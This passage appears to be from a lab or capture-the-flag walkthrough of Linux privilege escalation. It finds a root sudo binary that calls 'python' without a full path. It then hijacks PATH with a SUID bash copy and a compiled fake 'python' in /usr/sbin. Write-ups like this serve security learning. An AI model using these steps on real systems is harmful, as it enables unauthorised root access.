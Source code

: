 ```sh
END
```


Now get the username password then quit telnet.

- ## `su Orka` 

- Run `sudo -l` to checking sudo priv.
```sh
sudo -l
[sudo] password for Orka: 
Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
```
- we can sudo as `root` for binary `bitcoin`.
	- cd to /home/Orka/Desktop/
	- Checking strings : `strings bitcoin`
	- Figure flow. (so you know its need `password` and what true 'password' right ?)
```sh
[^_]
Enter the password : 
password
Access Denied... 
Access Granted...
```
	- Flaw on here `[python] /home/Orka/Desktop/transfer.py`
	- 'python' is execute without full path which should be '/usr/bin/python' `/usr/bin/python -> python2.7`


## Investigate $PATH variable. 
```sh
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games	
```
	- we can write in /usr/sbin; first create suid bin.
	- Follow this step.

Copy bash binary
-----------------
```sh
install -m =xs $(which bash) /tmp/py
```
Create our 'python' bin
------------------------
'nano /tmp/py.c'
```c
#include <stdio.h>
#include <stdlib.h>
void main(){
    system("/tmp/py -p");
}
```
Compile it
-----------
`gcc -o /usr/sbin/python /tmp/py.c`
